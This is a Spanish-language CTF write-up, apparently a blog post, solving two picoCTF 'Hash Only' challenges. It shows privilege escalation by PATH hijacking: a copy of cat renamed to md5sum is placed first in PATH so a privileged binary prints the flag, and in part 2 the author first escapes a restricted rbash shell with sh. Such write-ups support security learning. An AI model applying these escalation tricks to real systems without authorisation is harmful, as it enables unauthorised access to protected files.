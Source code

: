 ```yaml
---
layout: post
title: Hash Only PicoGym
comments: true
categories: [Sandbox, Writeups, PicoCTF]
---
```


En este post estaremos resolviendo un reto del [PicoGym](https://play.picoctf.org/practice/challenge/490?category=6&page=1&retired=0) y su segunda parte. En este caso se trata de un entorno sandbox.

<br>
![Image]({{ site.baseurl }}/images/posts/picoGym/pico_logo.png){:width="200px"}
<br>

# Hash Only 1

## Reconocimiento

   > Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!

En este reto se nos da una conexión por *ssh* y un binario. Si probamos a ejecutarlo nos devuelve lo siguiente:

```bash
./flaghasher 
Computing the MD5 hash of /root/flag.txt.... 

2f6b98222cd483122ff3225024b10bb5  /root/flag.txt
```

Si lo descompilamos con *ghidra* veremos que la operación se hace con el siguiente comando:

```c
std::__cxx11::basic_string<>::basic_string
          ((char *)local_48,(allocator *)"/bin/bash -c \'md5sum /root/flag.txt\'");
```

## Explotación

Como se está llamando directamente al binario `md5sum`, podemos hacer que el PATH apunte a otra ruta con un binario malicioso con el mismo nombre.

```bash
cp $(which cat) md5sum
export PATH="."
```

Y al ejecutar de nuevo el binario, conseguiremos la flag:

```bash
ctf-player@pico-chall$ ./flaghasher 
Computing the MD5 hash of /root/flag.txt.... 

picoCTF{<REDACTED>}
```

# Hash Only 2

## Reconocimiento

  > Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!

Igual que antes nos dan una conexión `ssh` y el mismo binario de antes.

## Explotación

Si intentamos el mismo proceso que antes, veremos que el PATH es *read-only* y que la shell es una `rbash` (*restricted bash*). Pero podemos tratar de cambiar la shell a una `sh`:

```bash
sh
\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ which flaghasher
/usr/local/bin/flaghasher

cp $(which cat) md5sum
export PATH="."

\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ /usr/local/bin/flaghasher
Computing the MD5 hash of /root/flag.txt.... 

picoCTF{<REDACTED>}
```

<br>